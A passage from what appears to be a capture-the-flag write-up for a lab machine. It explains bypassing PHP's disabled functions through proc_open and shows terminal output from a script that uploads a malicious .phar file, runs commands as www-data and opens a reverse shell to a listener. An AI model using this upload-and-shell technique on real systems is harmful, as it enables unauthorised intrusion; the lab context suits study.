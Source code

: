 Our normal one-line webshell are hurting since `system`, `passthru`, `shell_exec`, `exec`, `popen` and `pcntl_exec` are all disabled, however `proc_open` is not. Here's a list of [dangerous php functions](https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720).

To stream line this process I wrote a script to write a malicious `.phar` file, upload the it to the target and gather the data. 
The script have two flags.. 
.. `-c` / `--command` for command injection
.. `-r` / `reverse` automatically trigger a reverse shell

```bash
➜  updown python3 updown_rce.py -c "hostname && id"

  _   _       ____                      
 | | | |_ __ |  _ \  _____      ___ __  
 | | | | '_ \| | | |/ _ \ \ /\ / / '_ \ 
 | |_| | |_) | |_| | (_) \ V  V /| | | |
  \___/| .__/|____/ \___/ \_/\_/ |_| |_|
       |_|     by 0xPThree - exploit.se 
       

[+] File uploaded to: http://dev.siteisup.htb/uploads/1e0087c3c8c5df2f1f97f1cd169b705f/05f6adf04d44.phar
[+] Executing command 'hostname && id'...
[+] Response: updown
uid=33(www-data) gid=33(www-data) groups=33(www-data)

https://exploit.se

time elapsed: 0.284085750579834 seconds
```

```bash
➜  updown python3 updown_rce.py -r                 

  _   _       ____                      
 | | | |_ __ |  _ \  _____      ___ __  
 | | | | '_ \| | | |/ _ \ \ /\ / / '_ \ 
 | |_| | |_) | |_| | (_) \ V  V /| | | |
  \___/| .__/|____/ \___/ \_/\_/ |_| |_|
       |_|     by 0xPThree - exploit.se 
       

[+] File uploaded to: http://dev.siteisup.htb/uploads/102fe1680abe9017c824e82855db0674/71926ca1faf8.phar
[+] Preparing reverse shell
[+] Starting listener on port 4488
listening on [any] 4488 ...
connect to [10.10.14.14] from (UNKNOWN) [10.129.4.182] 41428
/bin/sh: 0: cant access tty; job control turned off
$ id && hostname
uid=33(www-data) gid=33(www-data) groups=33(www-data)
updown
```
